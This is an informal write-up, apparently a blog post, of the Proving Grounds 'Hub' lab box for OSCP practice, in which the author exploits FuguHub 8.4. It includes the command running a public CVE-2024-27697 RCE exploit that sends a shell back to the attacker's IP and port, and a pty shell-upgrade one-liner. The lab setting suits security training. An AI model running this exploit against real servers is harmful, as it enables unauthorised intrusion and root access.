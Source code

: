 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Hub"
date:   2024-08-03 14:47:31 -0400
categories: oscp proving-grounds TJNull
---
```


192.168.160.25
me - 192.168.45.196

port 80 returns forbidden....

=========================================================================================================================

port 8082

has a fuguhub admin account set up screen, this seems like an easy in and going to pause on it for a sec and check the other port

============================================================================================================================

port 9999

returns 
```
���
```
 
=========================================================================================
FuguHub 8.4

port 8082

yomej76248@luvnish.com
jubjub
stinkyrinky


https://github.com/SanjinDedic/FuguHub-8.4-Authenticated-RCE-CVE-2024-27697

running 
> └─$ python3 exploit.py -r 192.168.160.25 -l 192.168.45.196 -p 1234

exploit failed but looking at the github page it looks like it tries to create a user and then run the exploit so restarting the server and going to run exploit again against a fresh deployment.

python3 -c 'import pty; pty.spawn("/bin/bash")'



this box sucks, it keeps hanging, I've gotten root but not the proof.....

ok, logged in and was able to cat out /root/proof.txt


